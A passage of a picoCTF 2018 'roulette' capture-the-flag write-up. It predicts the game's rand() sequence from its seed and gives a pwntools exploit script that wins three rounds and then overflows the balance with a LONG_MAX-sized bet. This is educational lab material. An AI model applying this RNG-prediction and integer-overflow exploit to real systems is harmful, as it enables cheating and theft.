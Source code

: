 Compile it with `gcc rand_rol.c -o rand_rol` and we get the ability to predict 10 random numbers, given a seed.
```console
root@kali:/media/sf_CTFs/pico/roulette# ./rand_rol 1245
31
21
9
26
32
31
5
17
7
1
```

Now, we run the program again, and use the cash amount as a parameter for `rand_rol` in order to get the next 10 random numbers. We just need to win 3 rounds, but each round "wastes" 2 random numbers: One for the chosen number, and one more for `puts(win_msgs[rand()%NUM_WIN_MSGS])`.

We win 3 times, then bet for LONG_MAX + 100000000, and we're done.

The script:
```python
from pwn import *
import re

LONG_MAX = 0x7FFFFFFF

r = remote("2018shell3.picoctf.com", 48312)

r.recvline()
line = r.recvline()
print line
seed = re.search("\$(\d+)", line).group(1)
log.info("Seed: {}".format(seed))

rand_rol = process(["./rand_rol", str(seed)])
random_values = rand_rol.recvall()
random_arr = random_values.split("\n")

log.info("Random values: {}".format(random_arr))

def make_bet(amount, number):
    log.info("Making bet: Amount: {}, number: {}".format(amount, number))
    r.recvuntil("> ")
    r.sendline(str(amount))
    r.recvuntil("> ")
    r.sendline(str(number))
    for i in range(7):
        line = r.recvline().strip()
        if line != "":
            print line


for i in range(3):
    number = random_arr.pop(0)
    random_arr.pop(0)
    make_bet(1, number)

make_bet(LONG_MAX + 100000000, 1)
print r.recvall()
```
